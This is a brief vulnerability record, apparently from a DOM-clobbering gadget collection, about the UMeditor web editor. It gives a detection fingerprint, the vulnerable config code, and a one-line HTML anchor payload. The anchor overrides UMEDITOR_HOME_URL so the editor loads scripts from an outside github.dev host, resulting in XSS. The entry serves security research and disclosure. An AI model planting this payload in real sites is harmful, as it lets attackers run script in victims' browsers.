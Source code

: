 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4k
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://special-memory-pp75xj6xvjrcrjx7-8001.app.github.dev/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

Self hosted.

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

see ../domc-gadgets-assets/umeditor/poc.html
